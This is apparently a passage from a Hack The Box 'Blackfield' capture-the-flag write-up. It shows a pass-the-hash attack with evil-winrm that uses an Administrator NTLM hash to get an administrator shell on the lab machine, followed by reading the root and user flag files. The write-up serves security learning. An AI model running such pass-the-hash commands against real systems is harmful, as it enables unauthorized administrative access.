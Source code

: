 Once again, now that we have the password hashes for all users on the box we can login as them. We choose the Administrator password hash from the list and use Evil-WinRM to perform a Pass-The-Hash attack on the machine, providing us with an Administrator shell on the machine.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield/privesc]
└─$ evil-winrm -i 10.10.10.192 -u Administrator -H '184fb5e5178480be64824d4cd53b99ee'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt
-a----        11/5/2020   8:38 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
4375a629c7c67c8e29db269060c955cb
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\svc_backup\Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
3920bb317a0bef51027e2852be64b543
```

